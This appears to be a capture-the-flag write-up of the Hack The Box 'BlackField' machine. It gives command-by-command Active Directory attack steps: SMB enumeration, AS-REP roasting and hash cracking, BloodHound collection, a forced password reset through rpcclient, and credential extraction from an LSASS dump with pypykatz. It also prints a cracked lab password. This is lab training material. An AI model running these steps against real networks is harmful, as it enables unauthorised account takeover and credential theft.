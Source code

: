 # Hack the Box - BlackField


```CSS
Machine IP: 10.10.10.192
```

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.192 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
5985/tcp open  wsman
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.41 seconds
```

```CSS
▶ nmap -Pn -sC -sV -p 53,88,135,389,445,593,3268,5985 10.10.10.192 -oN services.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-20 13:56:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-05-20T13:57:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.98 seconds
```

---

## SMB Enumeration
  - Anonymous and Guest Enumeration 
```
▶ smbmap -H 10.10.10.192 -u guest
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee481776-6d35-4c5a-a235-099ce99ed714)

SMB shares reveal two non-default shares named `forensic` and `profiles$`. The share `forensic` is not accessible however read-only access is allowed on the `profiles$` share. 

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9a1f88cc-ce6c-4ee0-85b8-97579f3e5553)

---

## Kerberos
  - Kerberos Pre-Authentication Attack (ASREPRoast)
  - Craft a list of users to spray the users
```CSS
▶ smbclient -N \\\\10.10.10.192\\profiles$ -c ls | awk '{ print $1 }' | tee users.txt
```
```CSS
▶ impacket-GetNPUsers blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/99b7e598-7179-457a-84ab-5ff137a3ed46)

---

## Hash Crack (krb5asrep)
```CSS
▶ john krb.hash --format=krb5asrep
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1bd2c405-2c01-48c3-aebe-e3b1b97e88c2)

```CSS
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
```

---

## BloodHound
```CSS
▶ bloodhound-python --username support --password '#00^BlackKnight' --domain blackfield.local --nameserver 10.10.10.192 --collectionmethod all
```
```CSS
▶ neo4j console
```
```CSS
▶ bloodhound --no-sandbox
```
Upload files generated by `bloodhound.py` to BloodHound console.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/67572013-e505-4437-8921-284955cd2e5c)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f5d0f98a-36f2-4e82-a700-49d3bdead4ee)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/315fb65d-46bb-4905-96c8-7d6e7eddd6ab)

---

## Force Change Password
```CSS
▶ rpcclient 10.10.10.192 -U 'support'
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2 audit2020 23 Password123
rpcclient $> exit
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4b07f036-6c38-40f5-8b0c-581a8047a5f5)
```CSS
▶ crackmapexec smb 10.10.10.192 -u audit2020 -p Password123
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/94bac7e7-3c7c-4326-8916-293ee0af15d5)

---

```CSS
▶ smbclient \\\\10.10.10.192\\forensic -U "audit2020"
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3cd76e5d-a326-45c4-8d63-fd9a2346b84f)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9db2bdf4-995e-46ce-b788-2e8b03bc70cc)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b748c159-0191-42b0-963f-9d4adc71de12)

---

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6b970a7a-aa71-4612-8fe8-9f64f037600f)

---

## Dump File (.DMP)
```CSS
▶ pypykatz lsa minidump lsass.DMP
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e6eed677-d497-4777-be99-34b63bea7628)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cf9d1c3c-c4e2-44e4-a89d-aad2385e9fbe)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/fd9da16d-294e-48e1-818b-3085dd8954d2)

---

